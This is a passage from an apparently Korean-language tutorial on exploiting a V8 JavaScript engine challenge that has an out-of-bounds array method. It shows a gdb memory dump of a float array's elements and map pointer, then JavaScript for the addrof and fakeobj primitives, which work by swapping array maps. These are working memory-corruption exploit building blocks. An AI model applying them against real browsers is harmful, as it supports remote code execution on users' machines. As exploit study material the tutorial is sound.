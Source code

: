 DebugPrint를 통해 a의 map주소랑 a의 JSArray 주소를 알고 가자. 여기서 우리가 넣은 값이 들어있는 elements를 살펴보면

```bash
gef➤  x/40gx 0x1c4ffca90131 - 1
0x1c4ffca90130:	0x00003bf84fcc14f9	0x0000000200000000
0x1c4ffca90140:	0x3ff199999999999a	0x400199999999999a
0x1c4ffca90150:	0x000039f60db82ed9	0x00003bf84fcc0c71
0x1c4ffca90160:	0x00001c4ffca90131	0x0000000200000000
```

-1을 해준 이유는 포인터 태그 메커니즘에서 Pointers는 주소에 &1을 하기 때문에 -1을 하면 제대로 볼 수 있다.

여기서 0x3ff199...., 0x400199... 들이 1.1, 2.2인데 바로 뒤에 주소를 보면 map 이라는 걸 알 수 있다.

그러면 oob를 통해서 map에 write 혹은 read가 가능하다는 것이다. 그럼 object의 주소를 알아보도록 하자.

다음과 같은 코드를 보자. 

```javascript
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;
    obj_arr.oob(float_arr_map);
    let addr = obj_arr[0];
    obj_arr.oob(obj_arr_map);

    return ftoi(addr);
}
```



object array의 map을 float array map으로 변경하고, 0번째 요소를 리턴하는 함수이다. 만약 A라는 object array가 있을 때 addrof(A)를 하게 되면 원래라면 A의 주소를 참조해서 해당 값을 출력해야 하는데, float array map으로 변경하면 A object의 주소가 출력된다.  그다음 fake object를 만드는 코드를 보자.

```javascript
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function fakeobj(addr) {
    float_arr[0] = itof(addr);
    float_arr.oob(obj_arr_map);
    let fake = float_arr[0];
    float_arr.oob(float_arr_map);

    return fake;
}
```
